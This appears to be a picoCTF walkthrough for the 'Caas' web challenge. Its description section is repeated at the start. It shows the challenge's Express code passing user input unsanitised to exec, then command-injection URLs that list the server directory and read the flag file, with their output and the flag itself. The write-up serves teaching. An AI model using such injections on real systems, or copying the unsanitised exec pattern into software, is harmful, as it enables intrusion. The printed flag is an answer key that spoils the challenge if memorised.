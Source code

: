 # Caas

## Description

Now presenting [cowsay as a service](https://caas.mars.picoctf.net/ "Link to CTF challenge homepage")

Challenge Endpoints:

Download index.js	[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js "CTF Challenge JavaScript File")

## Hints

* (None)

## Walkthrough


# Caas

## Description

Now presenting [cowsay as a service](https://caas.mars.picoctf.net/ "Link to CTF challenge homepage")

Challenge Endpoints:

Download index.js	[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js "CTF Challenge JavaScript File")

## Hints

* (None)

## Walkthrough

If we visit the [link provided](https://caas.mars.picoctf.net/ "CTF challenge link") we'll see a website that allows us to print a message in cowsay](https://en.wikipedia.org/wiki/Cowsay "Wikipedia page for Cowsay").

> Cowsay as a Service
>
> Make a request to the following URL to cowsay your message:
>
> https://caas.mars.picoctf.net/cowsay/{message}

[Cowsay](https://en.wikipedia.org/wiki/Cowsay "Wikipedia page for Cowsay") is a program that generates ASCII art based on a custom message provided by the user. By default, the message appears above a cows head, like so:

```
 ______________________________
< This is an example of Cowsay >
 ------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

In Linux we can use Cowsay with the command ```cowsay <MESSAGE>```.

Given the above information, we can assume that the website provided for this challenge is using any message we provide as an argument to the ```cowsay``` command. We can verify this by viewing the contents of the [script provided in the challenge description](./index.js "CTF challenge script").

```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

Here, we can see that our message gets passed to the cowsay command and is executed by JavaScripts ```exec``` function, but it is not sanitized in anyway. Meaning we can potentially exploit this vulnerability.

```javascript
exec(`/usr/games/cowsay ${req.params.message}
```

We can verify this by writing the message "hi" followed by the Linux command seperator ```;``` and a command such as ```ls -la``` to list all contents in the current directory.

```
https://caas.mars.picoctf.net/cowsay/hi;ls%20-la

 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
total 52
drwxr-xr-x  1 root root  4096 Jun 16  2021 .
drwxr-xr-x  1 root root  4096 Jul 14 15:19 ..
-rw-r--r--  1 root root    14 May  5  2021 .dockerignore
-rw-r--r--  1 root root   278 May  5  2021 Dockerfile
-rw-r--r--  1 root root    73 May  5  2021 falg.txt
-rw-r--r--  1 root root   424 Jun 16  2021 index.js
drwxr-xr-x 52 root root  4096 May  5  2021 node_modules
-rw-r--r--  1 root root   135 May  5  2021 package.json
drwxr-xr-x  2 root root  4096 May  5  2021 public
-rw-r--r--  1 root root 14600 May  5  2021 yarn.lock
```

One of the files listed above stands out, ```falg.txt```, if we ```cat``` this file we'll find our flag.

```
https://caas.mars.picoctf.net/cowsay/hi;cat%20falg.txt

 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```
